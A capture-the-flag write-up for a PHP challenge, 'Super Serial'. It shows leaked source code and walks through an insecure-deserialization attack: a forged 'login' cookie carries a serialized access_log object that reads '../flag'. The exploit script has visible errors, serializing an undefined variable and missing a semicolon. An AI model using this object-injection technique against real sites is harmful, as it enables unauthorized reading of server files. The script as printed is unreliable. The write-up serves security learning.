


### Super Serial Challenge 180

Access to the lab, go `dirsearch`, got:



let's get some clue, on `robots.txt` 


`phps` is `php source`, it's mean i can read a source php, let's try to `admin.phps` but `404`


try others source code from `dirsearch`

got [authentication.phps](phps/authentication.php), [cookie.phps](phps/cookie.php), [index.phps](phps/index.php) source

let's read, 

```php
//index.phps:4-16
if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
```

This code meaning, `$perm_res` will init a contruct `permissions` with 2 paramas from browser is `$username` and `$password` (class permissons in `cookie.phps`) 

After this, `$perm_res` will be validate to confirm it is valid to access the webpage and cookie will be set `login` with value  `$perm_res` will be by `serialize()`

now, i need more information of `$perm_res`

on `cookie.phps` we got 2 function `is_guest()` and `is_admin()`

but on line 57-66, cookie was unserialize and web system using this to authentication, and of course, it put in try-catch block

So, if `$perm` will be get cookie from browser and get unserialize `login` cookie, after this, `$perm` will be pass `is_guest()` and `is_admin()` to confirm `role` access. and if not is_guest() or is_admin(), it's will be throw exception with `$perm` information. I know it is cookie and i will controled it

```php
//cookie.phps:57-66
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

Next, check `authentication.phps`, it's using `cookie.php:57-66` to authenticate 

when user want to acccess the webpage, user must be admin

```php
require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```

When it's admin, init a `access.log` and append data to the `log file`, may be i can using this to exploit this vulnerable

Now, i got `cookie` can be control, write a `script` make a log file reference `../flag` and serialize.

I need modify `authentication source`

```php
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

$perm = new access_log("../flag");   //create a new access_log
$perm_enc = urlencode(base64_encode(serialize($perm_res))) // serialize malicious object
echo $perm_enc;   // print $perm_enc
?>
```
run it got cookie


manipulation `login` value


